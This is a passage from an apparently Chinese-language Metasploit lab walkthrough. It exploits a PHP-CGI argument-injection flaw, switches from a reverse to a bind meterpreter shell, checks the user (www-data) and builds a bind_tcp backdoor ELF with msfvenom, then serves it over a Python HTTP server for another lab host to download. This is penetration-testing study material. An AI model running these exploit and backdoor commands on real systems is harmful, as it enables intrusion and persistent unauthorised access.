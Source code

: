 结果什么也没有：

![Screen Shot 2018-10-18 at 4.08.26 PM.png]({{ site.url }}/images/metasploit/FEA03CC9F97E3962B40132EDF5CBCFF9.png)

我想了一下，也许是`reverse_tcp`反向shell的问题（说白了就是网络方面的问题），所以换成正向shell试试：

```
msf exploit(multi/http/php_cgi_arg_injection) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
```

成功：

![Screen Shot 2018-10-18 at 4.09.45 PM.png]({{ site.url }}/images/metasploit/1BC935D6624EF240F0A850FA19524539.png)

到目前，我们已经获得了两个shell：

![Screen Shot 2018-10-18 at 4.10.40 PM.png]({{ site.url }}/images/metasploit/4466F74B0063D17691B4957EC038BFAA.png)

接下来用一些别的命令看看：

```
meterpreter > getwd
/var/www

meterpreter > getuid
Server username: www-data (33)
```

注意，我们现在依然处于php meterpreter中。输入`shell`进入系统shell：

![Screen Shot 2018-10-18 at 4.13.15 PM.png]({{ site.url }}/images/metasploit/9EB02C9CD3C50E0FF1E45723C0111BA2.png)

这样一来就可以执行各种系统命令（如`wget`之类）。

在这个shell中`ping -c 4 172.16.56.1`，告诉我网络不可达：

![Screen Shot 2018-10-18 at 4.25.52 PM.png]({{ site.url }}/images/metasploit/A1E2C954A555066D1311C644FB8AAABD.png)

这解释了为什么刚刚的反向shell不能使用。这一点与书中的情况不一致。书中作者没有做任何这方面的路由转发就可以直接用反向shell攻击成功。我尝试添加路由表，但是权限不够（`www-data`）：

![Screen Shot 2018-10-18 at 4.30.13 PM.png]({{ site.url }}/images/metasploit/C2B4DC1C8B8FF2163210C92DFAE74A5B.png)

现在，我们利用与攻陷第一台目标机器相同的方式开启一个正式的meterpreter（PHP版meterpreter功能有限）。只不过由于上述原因，我们要用正向shell了：

```
msfvenom -p linux/x86/meterpreter/bind_tcp msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=6666 -f elf >backdoor2.elf
```

同时也只能先把这个后门文件传给`.129`，然后让`.128`从`.129`上下载。

开启python临时服务器：

```
python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
